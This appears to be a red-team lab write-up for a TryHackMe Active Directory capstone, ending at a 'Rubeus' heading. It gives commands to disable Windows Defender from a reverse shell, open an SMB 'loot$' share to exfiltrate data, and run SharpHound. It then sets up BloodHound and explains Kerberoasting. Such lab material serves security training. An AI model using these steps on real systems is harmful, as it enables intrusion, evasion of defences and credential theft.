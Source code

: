 After [[CORP Tier 1]].

We are now local administrators of the machine, but in order to be able to fully compromise the Active Directory, we need a Domain Administrator account. 

## Disable Windows Defender
- On the Reverse Shell run powershell.
- Run the following code:
	`Set-MpPreference -DisableRealtimeMonitoring $true`
## Map the Active Directory in Bloodhound
### Create a new share folder to exfiltrate information.
1. In order to exfiltrate the information from the machine, create a share folder pointing to the Downloads directory, by issuing the following command on Powershell:
	 `New-SMBShare -name "loot$" -path "c:\users\laura.wood\Downloads" -FullAccess "laura.wood@corp.thereserve.loc"`
		Name  ScopeName Path                          Description
		----  --------- ----                                    -----------
		loot$ *                      c:\users\laura.wood\Downloads
2. Sccess the folder through smbclient and retrieve data from our tools on your Kali Machine run:
	`smbclient \\\\10.200.X.22\\loot$ -U laura.wood@corp.thereserve.loc`
		smb: \>

## Getting loot w/ SharpHound
### Upload SharpHound.ps1 from the Kali Machine
`smb: \>put SharpHound.ps1`

### Run SharpHound.ps1 on Powershell
`. .\SharpHound.ps1`

`Invoke-Bloodhound -CollectionMethod All -Domain corp.thereserve.loc 

> This action will create a zip file.

### Download to the Kali Machine the zip file
`smb: \>get <fileNama>.zip`


## BloodHound Installation

Note: Run the following steps on the Kali Machine.
> https://neo4j.com/docs/operations-manual/current/authentication-authorization/password-and-user-recovery/
  
1. Run the following code on the Kali terminal.
	`neo4j console`
 
2. BloodHound 3.x.x is the version used for tryhackme. You can download it from [here](https://github.com/BloodHoundAD/BloodHound/releases/tag/4.1.0). 
3. Download version of the BloodHound GUI from [https://github.com/BloodHoundAD/BloodHound/releases/tag/3.0.5](https://github.com/BloodHoundAD/BloodHound/releases/tag/3.0.5).
4. Unzip the folder.
5. Run BloodHound.
	`./BloodHound --no-sandbox`
	 - Authenticate with the credentials you set up for neo4j.5. bloodhound - default credentials -> neo4j:neo4j
    

	**![](https://lh7-us.googleusercontent.com/3CFfmT79yd1CqyOWo1SQG3NzdqfxzbMP3wJvM12FZEWHNfyX6maAyPRAwZN6cVVjKveIbMSBrsRzdL2itO52A-sUjTV_4Bxr-iwNy7o4ggF1iLz48gr1tSvpXoy0Bc3zsAxvC0R_B52SpdEY8ynD3iQ)**

6. After changing the password go back to bloodhound.

### Import the zip file to Bloodhound
Inside of Bloodhound search for this icon ![](https://lh7-us.googleusercontent.com/Y1BGpDxWmPoNB4AI3ajpCT4xESRuZXP0KO3O2RyurpD04873Kv-YsrAeGrjZo9lR8r11QQevbPE1FlkQPbZo9NAIR1fJBvCj3ETow_nETK74iUxkD10XALLPVc30gidmHccp2536hLQ5Y_9quizRDmU) and import the .zip file.

Note: On some versions of BloodHound the import button does not work. To get around this simply drag and drop the .zip file to folder into Bloodhound to import the .json files.

### Clear Database
If you want to change database or clear the database go to Database->Info and at the bottom of the list you have the buttons to do it.
![[clear_database.png]]

## Kerberos Accounts

![[kerberos_accounts.png]]

> - A Kerberoasting attack is an attack that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name, or SPN. 
> - This attack requires an authenticated domain user to request a Kerberos service ticket from a Ticket Granting Service (TGS). 
> - That ticket is encrypted with the hash of the service account, which you can try to brute force using hashcat, after capturing the TGS ticket.
> - The main advantage of this attack is that you do not require a privileged user to require a TGS, since any Domain user account can be used to request service tickets from the TGS.


## Rubeus

